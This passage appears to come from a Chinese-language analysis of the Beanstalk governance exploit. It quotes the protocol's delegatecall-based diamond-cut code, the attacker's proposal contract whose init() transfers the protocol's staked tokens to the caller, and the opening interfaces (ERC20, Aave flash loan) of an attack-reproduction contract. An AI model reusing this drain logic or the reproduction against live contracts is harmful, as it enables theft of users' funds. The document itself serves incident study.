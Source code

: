 一旦攻击者成功调用 emergencyCommit，那么 BeansProtocol 会以 delegatecall 的形式调用提案合约地址中的函数（详见文章之前小节分析）：

```solidity
    function initializeDiamondCut(address _init, bytes memory _calldata) internal {
        if (_init == address(0)) {
            require(_calldata.length == 0, "LibDiamondCut: _init is address(0) but_calldata is not empty");
        } else {
            require(_calldata.length > 0, "LibDiamondCut: _calldata is empty but _init is not address(0)");
            if (_init != address(this)) {
                enforceHasContractCode(_init, "LibDiamondCut: _init address has no code");
            }
            (bool success, bytes memory error) = _init.delegatecall(_calldata);
            if (!success) {
                if (error.length > 0) {
                    // bubble up the error
                    revert(string(error));
                } else {
                    revert("LibDiamondCut: _init function reverted");
                }
            }
        }
    }
```

攻击者布置的 BIP18 提案合约的 init() 函数逻辑如下，会直接将协议内的质押资产转移到攻击合约中：

```solidity
function init() public{
        IERC20(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db).transfer(msg.sender, IERC20(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db).balanceOf(address(this)));//bean
        IERC20(0x87898263B6C5BABe34b4ec53F22d98430b91e371).transfer(msg.sender, IERC20(0x87898263B6C5BABe34b4ec53F22d98430b91e371).balanceOf(address(this)));//wethBeanLP
        IERC20(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD).transfer(msg.sender, IERC20(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD).balanceOf(address(this)));//beanCrv
        IERC20(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D).transfer(msg.sender, IERC20(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D).balanceOf(address(this)));//beanLusd
    }    
```

攻击者完成攻击和闪电贷还款流程后，将所有攻击所得在 DEX 内换为 ETH，最终获利24830个ETH。

![image-20220511154924377](https://s3cunDa.github.io/assets/post/image-20220511154924377.png)

### 攻击复现

攻击合约：

```solidity
pragma solidity ^ 0.8.0;
import "hardhat/console.sol";
interface IERC20{
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external ;
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external;// returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function decimals() external view returns(uint);
}

interface IAAVEPool{
    function flashLoan(address,address[] calldata ,uint256[] calldata ,uint256[] calldata ,address onBehalfOf,bytes calldata ,uint16 referralCode) external;
}
```